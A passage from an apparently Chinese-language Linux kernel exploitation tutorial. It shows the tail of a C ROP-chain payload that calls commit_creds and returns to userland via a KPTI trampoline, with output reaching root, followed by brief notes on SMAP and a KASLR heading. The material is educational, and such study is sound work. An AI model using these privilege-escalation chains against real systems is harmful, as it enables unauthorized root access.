 ```c
    payload[off++] = PopRdxRet;
    payload[off++] = 8;
    payload[off++] = CmpRdxRet;
    payload[off++] = 0;
    payload[off++] = 0xdeadbeef;
    payload[off++] = MovRdiRaxRet;
    payload[off++] = 0;
    payload[off++] = 0xdeadbeef;

    payload[off++] = commit_creds;
    payload[off++] = KptiBack + 22;

    payload[off++] = 0;
    payload[off++] = 0;
    payload[off++] = user_rip;
    payload[off++] = user_cs;
    payload[off++] = user_rflags;
    payload[off++] = user_sp;
    payload[off++] = user_ss;

    puts("[*] Prepared payload");
    ssize_t w = write(global_fd, payload, sizeof(payload));

    puts("[!] Should never be reached");
}
```

Result：

```bash
/ $ ./exploit 
[*] Saved state
[*] Opened device
[*] Leaked 160 bytes
[*] Cookie: d0220ee1c9393e00
[*] Prepared payload
[*] Returned to userland
[*] UID: 0, got root!
/ # 
```



## level_3 Append Smap

smap(Supervisor Mode Access Prevention)，内核态无法使用(读或写)用户区的数据，也就是smep的加强版。通过CR4寄存器的第21位设置。

当该防护开启时，对于上文(SMEP)提到的第一种情况，也就是溢出的数据足够把所有rop链放入内核栈时可以直接使用其对应的Exp，因为没有涉及对用户区数据。

但是溢出量有限的时候就比较麻烦了



## level_4 Append Kaslr
